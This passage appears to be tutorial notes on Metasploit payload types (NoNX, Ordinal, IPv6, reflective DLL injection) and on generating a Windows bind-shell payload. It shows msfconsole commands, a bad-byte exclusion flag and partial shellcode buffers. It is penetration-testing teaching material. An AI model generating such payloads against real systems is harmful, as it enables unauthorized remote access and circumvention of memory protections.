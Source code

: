 * The NX \(**No eXecute**\) bit is a feature built into some CPUs to prevent code from executing in certain areas of memory. In Windows, NX is implemented as Data Execution Prevention \(**DEP**\).
* The Metasploit NoNX payloads are designed to **circumvent DEP**.

### Ord

* **Ordinal** payloads are Windows stager based payloads.
* Advantages
  * It works on **every** flavour and language of Windows **without** the explicit definition of a return address.
  * They are also **extremely tiny**.
* Disadvantages
  * It relies on the fact that **ws2\_32.dll** is loaded in the process being exploited before exploitation.
  * It’s a bit **less stable** than the other stagers.

### IPv6

* The Metasploit IPv6 payloads, as the name indicates, are built to function over **IPv6 networks**.

### Reflective DLL Injection

* Reflective DLL Injection is a technique whereby a **stage payload** is **injected** into a compromised host process running in memory, **never touching the host hard drive**.
* The **VNC** and **Meterpreter** payloads both make use of reflective DLL injection.

## Generating Payloads

*  When you **use** a certain payload, Metasploit adds the **generate**, **pry**, and **reload** commands.

```bash
msf > use payload/windows/shell_bind_tcp
msf payload(shell_bind_tcp) > generate
# windows/shell_bind_tcp - 341 bytes
# http://www.metasploit.com
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52" +
"\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26" +
"\x31\xff\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d" +
...snip...
```

### Unwanted Bytes \(-b\)

* To remove **unwanted bytes** or **bad characters**, e.g., the **null** byte \(\x00\), we issue the generate command followed by the **-b** switch with accompanying bytes we wish to be disallowed during the generation process.

```bash
msf  payload(shell_bind_tcp) > generate -b '\x00'
# windows/shell_bind_tcp - 368 bytes
# http://www.metasploit.com
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LPORT=4444, RHOST=, EXITFUNC=process, 
# InitialAutoRunScript=, AutoRunScript=
buf = 
"\xdb\xde\xba\x99\x7c\x1b\x5f\xd9\x74\x24\xf4\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\x8d\x9e\xee\xa3" +
"\x45\xd7\x11\x5c\x95\x88\x98\xb9\xa4\x9a\xff\xca\x94\x2a" +
...snip...
```
